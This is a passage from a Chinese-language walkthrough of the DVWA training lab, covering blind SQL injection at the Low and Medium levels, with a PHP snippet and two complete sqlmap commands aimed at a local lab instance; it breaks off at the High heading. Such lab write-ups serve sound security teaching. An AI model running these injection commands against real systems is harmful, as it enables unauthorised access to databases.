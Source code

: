 CSRF、检测 id 是否是数字，prepare 预编译语句的优势在于归纳为：一次编译、多次运行，省去了解析优化等过程；此外预编译语句能防止 SQL 注入。

# SQL Injection (Blind) SQL 盲注

盲注是一个比较耗时的工作，因为之前刷完靶场了，国光这里打算使用 sqlmap 演示一下点到为止，感兴趣的朋友建议去系统地刷下 SQLi-Labs 靶场。关于 SQLi-Labs 靶场可以参考我的另一篇文章：[SQLI labs 靶场精简学习记录](https://www.sqlsec.com/2020/05/sqlilabs.html)

## Low

主要区别在这里：





php

```php
if( $num > 0 ) {
  // 查询到结果 只输出如下信息
  $html .= '<pre>User ID exists in the database.</pre>';
}
```

下面尝试直接使用 sqlmap 进行注入：





 

```bash
sqlmap -u "http://127.0.0.1:8888/vulnerabilities/sqli_blind/?id=1*&Submit=Submit#" --cookie="PHPSESSID=ostjqce3ggb6tvlv55sg9hs7vi; security=low" --dbms=MySQL --technique=B --random-agent --flush-session -v 3
```

> 因为 DVWA 是有登录机制的，所以这里手动指定 –cookie 来进行会话认证

## Medium

同理也是没有直接输出查询结果的，这里和普通的注入类似，那么这里依然还是直接使用 sqlmap 进行注入：





 

```bash
sqlmap -u "http://127.0.0.1:8888/vulnerabilities/sqli_blind/" --cookie="PHPSESSID=ostjqce3ggb6tvlv55sg9hs7vi; security=medium" --data="id=1*&Submit=Submit" --dbms=MySQL --technique=B --random-agent --flush-session -v 3
```

## High





php
